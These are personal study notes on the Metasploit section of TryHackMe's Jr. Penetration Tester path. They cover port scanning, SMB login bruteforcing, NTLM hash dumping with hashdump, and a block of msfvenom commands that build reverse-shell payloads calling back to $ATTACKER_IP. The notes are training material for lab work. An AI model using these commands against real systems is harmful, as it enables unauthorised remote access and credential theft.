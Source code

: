 # TryHackMe: Jr. Penetration Tester

* **author**:: Nathan Acks
* **date**:: 2022-04-14

## Exploitation with Metasploit

### Scanning

Use `search portscan` to display built-in Metasploit port scanners. Note that `msfconsole` needs to be run as root for many scans to work - just like Nmap. That said, in my experience the fancier TCP scans (for example, SYN) don't work over a VPN… So maybe best to stick with Nmap.

Speaking of which, Nmap can also be called internally (like other shell commands).

The `auxiliary/scanner/discovery/udp_sweep` module will probe for common UDP services.

Metasploit has a variety of Samba/CIFS scanners too; use `search scanner/smb` to list them.

NetBIOS = Network Basic Input/Output System

TryHackMe emphasizes the importance of examining the usage of NetBIOS for potential vulnerabilities, though it's a bit light on specifics about what this means in practice.

Use `show advanced` to show additional module options.

The `auxiliary/scanner/http/http_version` module will give you HTTP server version information.

The `auxiliary/scanner/smb/smb_login` module will allow you to bruteforce Samba logins (username and/or password) using a wordlist(s).

* [Using "nmap"](../notes/nmap.md)
* [SAMBA (a.k.a. CIFS) Protocol](../notes/samba.md)
* [TCP SYN Port Scanner - Metasploit](https://www.infosecmatter.com/metasploit-module-library/?mm=auxiliary/scanner/portscan/syn)

### The Metasploit Database

Get basic database status using `db_status`.

Create and delete workspaces (engagements) with `workspace`; use `-a` to add and `-d` to delete. Switch between workspaces using `workspace $NAME`.

Use `db_nmap` to run Nmap (all of the regular options work) and dump the results into the Metasploit database.

The `hosts` and `services` commands can then be used to display the, well, hosts and services logged by Metasploit during an engagement. Both commands support an `-S` search parameter, the results of which can then be added to `RHOSTS` using the `-R` parameter.

### Exploitation

Show the payloads available for a particular exploit using `show payloads`. Use `set payload` to set the payload for the exploit; re-run `show options` after this to check if the payload has added any additional options that will need to be set before exploitation.

To dump NTLM hashes from Meterpreter, use the `hashdump` command. Normally only the first four fields are relevant:

* Username
* RID (the last four digits of the Windows SID, with leading zeros dropped)
* The user's LM password hash
* The user's NTLM password hash

Use `sessions` to, well, manage your sessions (most useful when you've backgrounded a payload and/or are working with multiple targets).

* [Dumping Windows Password Hashes Using Metasploit](https://www.utc.edu/sites/default/files/2021-04/4660-lab6.pdf)
* [Windows Password Hashes](../notes/windows-password-hashes.md)

### Msfvenom

Msfvenom is a tool to create custom versions of Metasploit payloads, encoded into a variety of different binary formats and scripts.

Use `--list formats` to see available encoding formats.

```bash
# 32-bit Linux ELF Meterpreter payload
#
msfvenom -p linux/x86/meterpreter/reverse_tcp \
LHOST=$ATTACKER_IP LPORT=$ATTACKER_PORT -f elf > rev_shell

# 32-bit Windows executable Meterpreter payload
#
msfvenom -p windows/meterpreter/reverse_tcp \
LHOST=$ATTACKER_IP LPORT=$ATTACKER_PORT -f exe > rev_shell.exe

# PHP Meterpreter payload
#
msfvenom -p php/meterpreter_reverse_tcp \
LHOST=$ATTACKER_IP LPORT=$ATTACKER_PORT -f raw > rev_shell.php

# ASP Meterpreter payload
#
msfvenom -p windows/meterpreter/reverse_tcp \
LHOST=$ATTACKER_IP LPORT=$ATTACKER_PORT -f asp > rev_shell.asp

# Python Meterpreter payload
#
msfvenom -p cmd/unix/reverse_python \
LHOST=$ATTACKER_IP LPORT=$ATTACKER_PORT -f raw > rev_shell.py
```

Use the `exploit/multi/handler` module in Metasploit to catch the shells produced using Msfvenom (note that you'll need to use `set payload` to tell Metasploit *what* it's catching!). We can catch both regular reverse shells and Meterpreter sessions this way.
